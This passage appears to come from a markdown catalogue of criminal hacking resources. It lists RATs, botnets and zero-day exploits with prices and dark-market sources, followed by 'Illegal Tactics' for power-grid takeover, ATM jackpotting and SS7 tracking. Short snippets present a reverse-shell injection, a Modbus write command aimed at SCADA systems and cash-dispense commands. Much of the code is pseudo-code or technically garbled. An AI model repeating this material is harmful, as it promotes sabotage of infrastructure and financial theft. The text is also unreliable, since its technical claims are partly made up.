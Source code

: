 20. **Dark Utilities**  
   - **BlackShades** (RAT): $500 in XMR on Empire Market  
   - **Mirai-v3** (IoT botnet): Free on GitHub (modified)  
     ```c  
     telnet_login("admin", "admin"); // Default credentials brute-force  
     ```  

21. **0-Day Exploits**  
   - **CVE-2024-32896** (iOS 17.4.1 kernel RCE): $250k on xss[.]is  
   - **Citrix ADC RCE Chain**: $180k bundled with PoC  

---

### **Cyberware Mods**  
22. **Neural Interface**  
   - **Neurable EEG Headset** ($2k) + custom firmware  
     ```python  
     import neurable  
     neurable.connect()  
     neurable.inject_payload("reverse_shell.exe")  
     ```  

23. **Subdermal NFC Implant**  
   - xNTi NFC chip ($150) + magnet implant  
   - Clone HID keycards via subcutaneous reader  

24. **Optical Mod**  
   - **Tap Strap 2** ($300) for air-gapped keyboard injection  
   ```text  
   ADB over IR: adb connect 192.168.4.1:5555  
   ```  

---

### **Illegal Tactics**  
25. **Power Grid Takeover**  
   ```bash  
   # SCADA system exploit (Modbus/TCP)  
   python3 pymodbus.py -r 1 -c 10 -f 6 -d 1 192.168.1.100  
   ```  

26. **ATM Jackpotting**  
   - **Ploutus-D** malware ($15k) + Black Box attack  
   ```text  
   Send "UNLOCK" command via RS-232  
   Dispense all cash via CMD_DISPENSE(0)  
   ```  

27. **Implant Tracking**  
   - Stingray IMSI catcher + **SS7 protocol exploit**  
   ```text  
   sendRoutingInfoForSM msisdn=+1234567890  
   ```  

---
